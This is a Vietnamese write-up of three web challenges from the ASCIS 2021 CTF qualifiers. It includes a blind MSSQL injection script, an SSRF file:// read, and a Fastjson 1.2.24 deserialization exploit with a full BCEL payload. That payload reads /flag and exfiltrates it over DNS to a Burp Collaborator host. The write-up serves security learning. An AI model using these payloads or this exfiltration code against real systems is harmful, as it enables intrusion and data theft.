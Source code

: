 # ============= ASCIS 2021 - Quals =============  
<hr />  
  
## 1. script kiddie - 100pts  
  
Như mô tả ta có thể biết rằng web có chứa lỗ hổng SQL-injection với cơ sở dữ liệu được dùng ở đây là MSSQL.  
Câu query như sau: ` SELECT * FROM ... ORDER BY $sort ASC`  
Giá trị của biến `$sort` ta có thể control thông qua param `?sort=`  
Payload: `(case when (ascii(substring(db_name(),{index},1))={ord(c)}) then 1 else 1/db_name() end )`  
  
```python3  
import requests
from string import printable


url = 'http://167.172.85.253/web100/'
r = requests.Session()
db = ''
index = len(db) + 1

while True:
	for c in printable:
		#print("testing for " + c)
		payload = f'(case when (ascii(substring(db_name(),{index},1))={ord(c)}) then 1 else 1/db_name() end)'
		resp = r.get(url + '?sort=' + payload)
		if "Error" not in resp.text:
			db += c
			index += 1
			print(f"Length: {len(db)} - DB_NAME: {db}")
			break  
```  
![image](https://user-images.githubusercontent.com/44127534/137701975-53123d34-8aa2-4aa5-a045-d4bb27ac934d.png)  
> Flag: `ASICS{ssalchtiwesmihcueymorf}`  

## 2. OProxy - 400pts
  
Challege là một trang web có chức năng cho người dùng nhập vào một url và server trả về nội dung của trang web đó.  
![1](https://user-images.githubusercontent.com/44127534/137702153-809ef500-a4e6-49fa-b83e-4df111c5c777.png)
  
Dự đoán đây có thể tác giả ra thử thách ssrf. Fuzz các payload ssrf thì thấy được:  
![2](https://user-images.githubusercontent.com/44127534/137702202-a82f0e56-e27d-4629-a829-de987f526274.png)
  
Để ý server respose header Werkzeug/1.01 Python/3.10.0, có thể dự đoán được back-end có thể là flask, và có thể challenge được dựng trên docker, thử nhập url: file://127.0.0.1/app/main.py thì có được mã nguồn:  
  
![3](https://user-images.githubusercontent.com/44127534/137702301-c120d7c0-0606-44ab-8ab1-590538b0dd33.png)
  
Tới đây thì thử đọc file flag:  
![4](https://user-images.githubusercontent.com/44127534/137702338-414b7486-4fa5-4cf3-8864-4121a2d92ccc.png)
  
> Flag: `ASCIS{SSRF_M3mcached_inj3cti0n}`  

## 3. isolate - 475 pts  
  
Ở challenge này, đề bài có cung cấp cho ta source, cụ thể là có file `isolate.war` nên ta tiến hành giải nén và đọc các file `.class` bằng Intellij  
Phần xử lý chính nằm ở class `ISOServlet` có nội dung sau:  
![image](https://user-images.githubusercontent.com/44127534/137703459-7a027fbc-e3f4-4124-8c4a-09e50958d11e.png)
  
Server đọc chuỗi json qua `request.getInputStream()` và chặn những chuỗi json có chứa chuỗi `@type`, nếu mọi thứ ok thì sẽ đi qua hàm `JSON.parse(jsonData)`.  
Ở đây challenge sử dụng `Fastjson` phiên bản `1.2.24`  
![image](https://user-images.githubusercontent.com/44127534/137703786-2f6e1b65-3b82-46e0-9a5b-135325fe2989.png)  
    
Sau khi tìm google về `fastjson 1.2.24` thì thấy có khá nhiều bài nói về cách khai mà chủ yếu thông qua `autoType` do `fastjson` hỗ trợ được biểu diễn qua key là `@type`. Vì fastjson hỗ trợ việc sử dụng `autoType` này để khởi tạo một lớp cụ thể và gọi các phương thức set/get để truy cập các thuộc tính.  
  
Mà `@type` đã bị chặn bởi server vì do server lấy input dưới dạng stream nên ta có thể bypass dễ dàng qua unicode encode (cụ thể là `@\u0074ype`)  
Sau khi được BTC hint `BCEL / DBCP` thì team đã nhanh chóng google tìm được một [bài post](http://blog.nsfocus.net/fastjson-basicdatasource-attack-chain-0521/) về nó và kết hợp với [bài github](https://github.com/depycode/fastjson-local-echo) là đủ dữ kiện để khai thác.  
  
![image](https://user-images.githubusercontent.com/44127534/137706394-c7bffeb2-b16c-410a-995c-3f4f7ba94f9c.png)
  
Payload:  
```json
{
    {
        "@\u0074ype": "com.alibaba.fastjson.JSONObject",
        "x":{
                "@\u0074ype": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
                "driverClassLoader": {
                    "@\u0074ype": "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },
                "driverClassName": "<class dump>"
        }
    }: "x"
}
```  
Trong đó, `<class dump>` là các file `.class` đã được encode dạng `BCELEncode`. Ý tưởng đọc flag ở `/flag` sau đó encode dưới dạng `hex` sau đó dùng `Burp collaborator client` để lắng nghe DNS lookup và lấy flag.  
  
```
import javax.script.ScriptEngine;
import javax.script.ScriptEngineManager;
import javax.script.ScriptException;
import java.io.DataInputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;
import java.net.MalformedURLException;
import java.net.URL;
import java.net.URLConnection;
import java.nio.file.Files;
import java.nio.file.Paths;

public class Dummy {
    static {
        try {
            getFlag();
        } catch (Exception e) {
            e.printStackTrace();
        }

    }
    private static final char[] HEX_ARRAY = "0123456789ABCDEF".toCharArray();

    public static String byteArrayToHex(byte[] a) {
        StringBuilder sb = new StringBuilder(a.length * 2);
        for(byte b: a)
            sb.append(String.format("%02x", b));
        return sb.toString();
    }

    public static void leakFlag(String c) throws MalformedURLException {
        URL yahoo = new URL("http://"+c+".648yq47p874in51d8874eiy2vt1jp8.burpcollaborator.net");
        yahoo.hashCode();
    }

    public static void getFlag() throws Exception {
        try {
            byte[] dt = Files.readAllBytes(Paths.get("/flag"));
            leakFlag(byteArrayToHex(dt));

        } catch (MalformedURLException me) {
            System.out.println("MalformedURLException: " + me);
        } catch (IOException ioe) {
            System.out.println("IOException: " + ioe);
        }

    }

    public static void main(String[] args) {
        try {
            getFlag();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

}
```  
Command:  
```bash  
> $ javac Dummy.java
> $ java BCELEncode Dummy.class
```   
  
Final payload:  
```json
{
    {
        "@\u0074ype": "com.alibaba.fastjson.JSONObject",
        "x":{
                "@\u0074ype": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
                "driverClassLoader": {
                    "@\u0074ype": "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },
                "driverClassName": "$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$85U$dbV$dbF$U$dd$c26$SB$5cb$cc$r4$Q$924$d48$80$81$98K0$a55$E$g$8a$J$J$90$QJ$daT$b6$F6$91$zG$c8$U$f7$f6$d4$d5$P$e9$L$7d$y$edZ$e0$d5$ac$e4$D$fa$L$fd$91$3e5$dd$ps$c7Y$7d$f0$cc$e8$cc$cc$3e$fb$ec$d93$fe$eb$df$3f$df$C$88$e0G$V$3eDeL$a8$a8$c2$c7$K$se$7c$a2$e2S$c4T$5c$c1$94$IN$8b$e6$be$8c$Z$d1G$V$cc$w$f8L$85$8a$H$a2$99S$f0$b9$8cy$Vq$y$a8x$88E$V$b7$f0H4$8fe$y$d5$60$Z$x$K$9e$88$9dOU$ac$e2$99$8c5$F_$88$f9u$Z$cfUt$e2K$F_$89$5c$_j$Y$fcZ$86$$$a1$e6$c1$cc$b3$X$b1$a5$a5$d8$9a$84$aa$f5i$J$d5$T$99$5c$c6$99$94$e0$J$f6$3c$95$e0$9d$b6R$86$84$86x$sg$3c$yd$T$86$bd$a2$tLF$ea$TE$c7$88$d9$b6$5e$5c$b1$k$Y$bb$SZ$82$ebS$3d$f1$z$7dG$P$9bzn3$bc$ec$d8$99$dcfTB$dd$b2$a3$t_$$$e8yw$a7$8c$E$V$90$a0$98$86$fer$d6$d47$r4$H$_o$T$b9$d5$99$dd$a4$91w2Vn$5b$82$bci8b9Kea$q$96$d5397k$a5$cd$y$98$v$s$92$e6Q1$ea$b2U$b0$93$c6lFPW$ef$X$b2$d9b$bf$d8$a6$a1$h$lIh$bd$I1U$c8$98$v$c3$W$d3I$e6$ba$3d0$c4$K$hOW$z$s$b6$8c$a4$p$p$a5$c1$c0$86$86M$a45d$b0$a5$e1$rL$J$9a$bb2g8$e1$tKqrO$3bN$7e$3c$i$96$Q$e9$l$89$8c$V_EF$f3c$a3$91Lnx05$c6$81$91$v$O$ed8$83$5b$f9$b1$feD$c1$ce$t$z$d3$d4$T$96$ad$3b$96$ddO$Q$c1b$40C$W$ac$d7$X$dep5k$bc$c8X$86$a5$n$8fW2$c8z$h$dc$U$c2$j$Na$MH$e8$3c$a1$b3$a0$9b$h$96$9d5R$e4u$a2$ae$8c$82$86$j$7cC$j$w$ce$8fw$89$dave$U5$7c$x$f0$9a$5c$bc$8c$V$9e$5b$3cY$c4s$3e$f3$r$b6$M$Je$9bNy$9eLj$f8NL5$O$M$O$dd$8d$M$8f$8c$8e$dd$8bMM$df$9f$99$d5$f0$3d$7e$d0$f0$nn$b3N$f7$8c$84$t$a7$a8$7fpN$f8$a1$fe$Uk$8a$e6$a3$ae$3b$baY0$W7$98$sx$ce$7bb$9a$ce$ab$W$b5$e8$8e$84$7b$V$iv$d67$e5$e3$8cV$b4o$b5$9e$cf$h$b9$94$84$beJ6$bd$U$3ar$O7$w$8eU$OI$I$E$xB$xi$7d$3b$5d$be$60$bcms$c7j$e5$a8$ec$G$9d$g$7e$a4$3biZ$dfC$ebK$88$feO$N$e7$Z$9d$c3$88$5eB$W$X$81$c8$9am$e8$a9$98i$K$bd$f8$d9$W$ac$b4$b9G$i$c1Y$bf$V$b7$j$pKZV$81$b4$9a$e3$c7fx$c4$fc$OY$Yz6zA$ad$f7$ea$7b$aaVS$F$Y$9ep$5e$7c$99tWC$be$i$e7S$b2b$ebIJV$ebX$d3i$ddv$df$m$e1$91$9e$f5i$dc$e0$c3$e6$e3c$x$a1$5d$f8$88$a3j$8ey$c7$d9$G$f9$d5$c1$5eb$ef$L$jB$daw$X$f6$i$z$C$eaQ$p$$$cd$d1$d2$9f$Z$adf$l$7b$8d$aa$b5$d0$5b_$fa$Q$9exh$a1$f7$ed$a4g$c4$db$ec$ed$f8$F$b7$7b$9b$bdwG$7cw$fc$5e$ef$h$f8$d6$3c$cd$be$S$aa$97K$90$P$a0$ac$fe$e4$95$f6$de$fd$7d$e7$A5$bf$R$a4$caM$d3$e2rk$87$86$P$d0$85k$Ya$3fAN$bd$8c$b6$a2$ea$j$C$f0$c9$e8$93$d1$cfV$o$a5$7fH$bcF$dca$C$IN$b3$f0r$Et$bf$86$ba$sx$j$a2$d6$af1$5d$88$3f$7f$j$h$e6$3bD$7d$9cy$hVO$eb$ab$87$87$ed$N$s$bdIQna$90_$5e$ce$b5$Q$9d$d7$f4$I$fdW$ae$S$3a$y$fa$h$3dop$a5$E$7f$JM$f3$a1$S$C$r4$efa$7c$few$b4$k$tm$x$t$bd$ca$7c$Hh$dfC$c7$d9$c9k$e7$s$f7$5d$ca$BV$d8$e2$f6$RV$5d$d6$a3$9b$e9$c1$f4uL$l$40$3fW$84$d0$c6$D$Y$e48BU$86$d1$c7$ff$b9$BW$9fZxVe$dc$7d$$$pr$f5$84$7f$t$B$86$vc$f9$c4$e6$d8$8bTZ$J$j$7bP$84$I$d7$f7$dd$8a$3c$3c$c9$ces$87$Qal$94$d1a$c8$dc_$8b17$89$8c$aaY$Z$a3$5e$u$M$i$7b$e6$f1$91g$Ce$d8yVv$dd$dfu$80$h$7f$e0$e6$fb$e0$af0$W$60$d4O$c8$s$c2$b7$9e$87$e7$8b$e4$9ab$fc$3fag$V$f2$i$I$A$A"
        }
    }: "x"
}
```     
![image](https://user-images.githubusercontent.com/44127534/137708160-5ce7139e-c0a2-402b-aed4-c3d44ae1e332.png)
  
![image](https://user-images.githubusercontent.com/44127534/137708257-373db6d0-4b61-4248-ac62-227c89dd9934.png)
    
> Flag: `ASCIS{howaboutw/oDNS?:>}`    
